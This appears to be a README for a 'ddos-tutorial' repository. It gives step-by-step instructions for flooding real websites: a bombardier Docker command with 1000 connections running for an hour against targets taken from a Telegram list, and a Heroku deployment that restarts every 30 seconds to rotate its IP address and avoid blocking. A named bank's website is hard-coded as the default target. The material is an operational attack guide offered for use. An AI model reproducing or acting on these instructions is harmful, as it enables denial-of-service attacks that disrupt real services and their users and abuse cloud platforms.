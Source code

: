 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Install heroku cli: https://devcenter.heroku.com/articles/heroku-cli#install-the-heroku-cli
5. Edit `reload.sh` file and insert your app name there.
6. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
6. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
7. In order to change destination, please change in the code `https://www.tinkoff.ru/` to any other destination and redeploy app: 
```
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
